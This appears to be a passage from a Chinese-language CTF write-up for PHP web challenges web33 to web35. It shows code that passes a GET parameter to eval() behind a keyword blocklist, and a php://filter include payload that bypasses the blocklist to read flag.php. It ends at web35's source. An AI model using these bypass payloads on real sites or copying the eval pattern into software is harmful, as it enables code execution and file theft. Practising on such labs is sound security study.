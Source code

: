 ```php
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

## web33

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题依旧可以使用上题的方法

```php
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

## web34

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

```php
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

## web35

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
